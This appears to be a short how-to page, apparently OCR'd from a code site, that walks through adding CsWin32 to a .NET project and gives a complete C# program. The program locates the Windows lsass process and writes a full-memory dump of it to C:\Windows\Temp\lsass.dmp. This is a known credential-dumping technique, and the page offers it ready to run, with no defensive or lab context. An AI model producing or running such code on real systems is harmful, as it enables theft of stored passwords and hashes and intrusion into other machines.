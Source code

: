 ### **1. Install CsWin32:**
First, you'll need to install CsWin32 via NuGet:

```bash
dotnet add package Microsoft.Windows.CsWin32
```

### **2. Generate the P/Invoke Signature:**
Add a `NativeMethods.txt` file to your project and include the following line in it:

```
MiniDumpWriteDump
```

This tells CsWin32 to generate the P/Invoke signature for the `MiniDumpWriteDump` function.

### **3. Use the Generated Code:**

After adding the `NativeMethods.txt`, CsWin32 will generate the necessary P/Invoke code. You can then use this generated code in your C# program. Here’s the complete C# program with CsWin32:

```csharp
using System;
using System.Diagnostics;
using System.IO;
using Microsoft.Windows.Sdk;

class Program
{
    static void Main(string[] args)
    {
        Process[] processes = Process.GetProcessesByName("lsass");
        if (processes.Length > 0)
        {
            Process lsass = processes[0];
            string dumpFile = Path.Combine("C:\\Windows\\Temp", "lsass.dmp");

            using (FileStream fs = new FileStream(dumpFile, FileMode.Create, FileAccess.Write, FileShare.None))
            {
                bool success = PInvoke.MiniDumpWriteDump(
                    lsass.Handle,
                    (uint)lsass.Id,
                    fs.SafeFileHandle.DangerousGetHandle(),
                    MINIDUMP_TYPE.MiniDumpWithFullMemory,
                    IntPtr.Zero,
                    IntPtr.Zero,
                    IntPtr.Zero);

                Console.WriteLine(success ? "Dump successful" : "Dump failed");
            }
        }
    }
}
```

